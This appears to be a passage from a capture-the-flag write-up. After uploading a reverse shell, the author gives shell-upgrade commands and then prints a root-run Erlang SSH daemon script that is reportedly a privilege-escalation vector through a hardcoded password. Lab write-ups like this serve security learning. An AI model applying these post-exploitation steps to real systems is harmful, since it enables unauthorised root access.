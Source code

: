 Then we can upload our revshell inside the folder 

<img width="1721" height="892" alt="image" src="https://github.com/user-attachments/assets/4d4b249f-d683-4b15-833e-1a739e1e59a2" />

<img width="1354" height="778" alt="image" src="https://github.com/user-attachments/assets/cff680ef-3d82-4bd0-8bd1-d95d6c0198ad" />


and a little shell upgrade

```bash
script /dev/null -c bash
# CTRL + Z
stty raw -echo;fg;
export TERM=xterm
```

<img width="1705" height="891" alt="image" src="https://github.com/user-attachments/assets/52200bf1-796a-42e5-89b6-a4500ff51719" />

I ran the usual local-privilege checks and noticed an unusual root process *(an Erlang escript that starts an Erlang-based SSH daemon)*. 

### Script that exposes erlang ssh  

The script runs as root and exposes an SSH-like interface. 

<img width="1714" height="830" alt="image" src="https://github.com/user-attachments/assets/86eb7a91-7dd8-4c2a-a83b-d2d3709acbe3" />

It contains a hardcoded ben password, which is a direct local privilege-escalation vector. 

Anyone able to reach the localhost SSH (or execute ssh ben@127.0.0.1 from a local account) can authenticate, drop into the Erlang shell, and execute commands as root.

```bash
www-data@soulmate:/$ cat /usr/local/lib/erlang_login/start.escript
#!/usr/bin/env escript
%%! -sname ssh_runner

main(_) ->
    application:start(asn1),
    application:start(crypto),
    application:start(public_key),
    application:start(ssh),

    io:format("Starting SSH daemon with logging...~n"),

    case ssh:daemon(2222, [
        {ip, {127,0,0,1}},
        {system_dir, "/etc/ssh"},

        {user_dir_fun, fun(User) ->
            Dir = filename:join("/home", User),
            io:format("Resolving user_dir for ~p: ~s/.ssh~n", [User, Dir]),
            filename:join(Dir, ".ssh")
        end},

        {connectfun, fun(User, PeerAddr, Method) ->
            io:format("Auth success for user: ~p from ~p via ~p~n",
                      [User, PeerAddr, Method]),
            true
        end},

        {failfun, fun(User, PeerAddr, Reason) ->
            io:format("Auth failed for user: ~p from ~p, reason: ~p~n",
                      [User, PeerAddr, Reason]),
            true
        end},

```